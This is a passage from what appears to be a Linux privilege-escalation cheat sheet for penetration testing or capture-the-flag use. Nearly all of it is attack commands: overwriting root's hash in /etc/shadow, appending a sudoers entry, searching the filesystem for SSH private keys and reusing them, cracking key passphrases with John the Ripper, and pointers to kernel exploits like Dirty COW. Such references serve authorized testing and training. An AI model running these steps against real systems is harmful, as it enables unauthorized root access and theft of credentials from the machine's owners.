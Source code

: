 ```
------------------/etc/shadow--------------------------------


Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
Copy the output
vi /etc/shadow
// Replace root's hash with the output that you generated
wq!
su root 
id && whoami
   
/etc/sudoers

echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers // Replace "Username" with your current user (Example: www-data)
sudo su
id && whoami
```
### SSH Private Keys
```
find / -name authorized_keys 2> /dev/null              // Any Public Keys?
find / -name id_rsa 2> /dev/null                       // Any SSH private keys?

Copy id_rsa contents of keys found with the above command
Create a local file on your box and paste the content in

chmod 600 <local_file>

ssh -i <local_file> user@IP
   
// Is the key password protected?

ssh2john <local_file> > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Kernel Exploits
```
uname -a // What OS kernel are we using?

// Google Search (Example): 4.4.0-116-generic #140-Ubuntu Expliots OR 4.4.0-116-generic #140-Ubuntu PoC github
// Read the expliots and follow the instructions
// Popular Linux Kernel Exploits

Dirty COW (CVE-2016-5195)
version < 2.6.22
URL: https://dirtycow.ninja/

Other Kernel Expliots
URL: https://github.com/SecWiki/linux-kernel-exploits
```
